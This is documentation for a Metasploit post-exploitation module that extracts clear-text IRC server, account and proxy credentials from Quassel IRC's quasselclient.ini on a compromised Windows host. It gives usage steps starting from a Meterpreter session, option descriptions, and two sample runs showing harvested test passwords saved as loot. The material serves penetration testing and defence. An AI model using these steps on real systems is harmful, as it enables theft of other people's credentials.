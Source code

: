 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Quassel IRC Client.

The Quassel IRC Client is avaialble from (https://quassel-irc.org/downloads).

This module extracts information from the quasselclient.ini file in the "AppData\Roaming\quassel-irc.org" directory.

This module extracts server information such as host name, port, account name, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/quasell_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Quassel Client v0.14.0 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Quassel irc's Quasselclient.ini file found
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_QuasselIRCquass_570372.ini

[+] 1\HostName=10.245.100.2
[+] 2\HostName=10.0.0.3
[+] 1\Port=4242
[+] 2\Port=1234
[+] 1\AccountName=Test
[+] 2\AccountName=Test#2
[+] 1\Password=tiaspbiqe2r
[+] 2\Password=tiaspbiqe2r
[+] 1\ProxyHostName=localhost
[+] 2\ProxyHostName=
[+] 1\ProxyPort=8080
[+] 2\ProxyPort=8080
[+] 1\ProxyUser=test
[+] 2\ProxyUser=
[+] 1\ProxyPassword=tiaspbiqe2r
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_EXTRACTIONquasse_134569.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Quassel Client v0.14.0 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Quassel irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Quassel irc's base folder found
[*] Found the folder containing specified artifact for quasselclient.ini.
[*] Quassel irc's Quasselclient.ini file found
[*] Processing C:\Users\test\AppData\Roaming\quassel-irc.org
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_QuasselIRCquass_310535.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\HostName=10.245.100.2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\HostName=10.0.0.3
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Port=4242
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Port=1234
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\AccountName=Test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\AccountName=Test#2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyHostName=localhost
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyHostName=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyUser=test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyUser=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPassword=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_EXTRACTIONquasse_967148.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
